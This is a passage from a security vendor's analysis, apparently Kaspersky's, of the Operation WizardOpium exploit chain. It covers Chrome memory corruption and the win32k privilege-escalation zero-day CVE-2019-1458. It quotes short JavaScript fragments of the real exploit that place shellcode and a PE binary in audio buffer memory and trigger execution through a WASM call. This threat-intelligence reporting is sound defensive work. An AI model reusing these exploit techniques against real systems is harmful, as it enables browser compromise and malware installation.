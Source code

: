 


Now all that’s needed is to implant a Uint8Array object into the memory of this audio buffer and place shellcode there along with the Portable Executable that will be executed by the shellcode.





let payloadArray = new Uint8Array(audioBuffer.getChannelData(0).buffer);
payloadArray.set(shellcode, 0);
payloadArray.set(peBinary, shellcode.length);




123

let payloadArray = new Uint8Array(audioBuffer.getChannelData(0).buffer);payloadArray.set(shellcode, 0);payloadArray.set(peBinary, shellcode.length);




To prevent the possibility of a crash the exploit clears the pointer to the top of the FreeList structure used by the PartitionPage.





write64(freelist, partitionPagePtr, BigInt(0));




1

write64(freelist, partitionPagePtr, BigInt(0));




Now, in order to execute the shellcode, it’s enough to call the exported WASM function.





try {
	wasmFuncA();
} catch (e) {}




123

try { wasmFuncA();} catch (e) {}




Microsoft Windows elevation of privilege exploit
The shellcode appeared to be a Reflective PE loader for the Portable Executable module that was also present in the exploit. This module mostly consisted of the code to escape Google Chrome’s sandbox by exploiting the Windows kernel component win32k for the elevation of privileges and it was also responsible for downloading and executing the actual malware. On closer analysis, we found that the exploited vulnerability was in fact a zero-day. We notified Microsoft Security Response Center and they assigned it CVE-2019-1458 and fixed the vulnerability. The win32k component has something of bad reputation. It has been present since Windows NT 4.0 and, according to Microsoft, it is responsible for more than 50% of all kernel security bugs. In the last two years alone Kaspersky has found five zero-days in the wild that exploited win32k vulnerabilities. That’s quite an interesting statistic considering that since the release of Windows 10, Microsoft has implemented a number of mitigations aimed at complicating exploitation of win32k vulnerabilities and the majority of zero-days that we found exploited versions of Microsoft Windows prior to the release of Windows 10 RS4. The elevation of privilege exploit used in Operation WizardOpium was built to support Windows 7, Windows 10 build 10240 and Windows 10 build 14393. It’s also important to note that Google Chrome has a special security feature called Win32k lockdown. This security feature eliminates the whole win32k attack surface by disabling access to win32k syscalls from inside Chrome processes. Unfortunately, Win32k lockdown is only supported on machines running Windows 10. So, it’s fair to assume that Operation WizardOpium targeted users running Windows 7.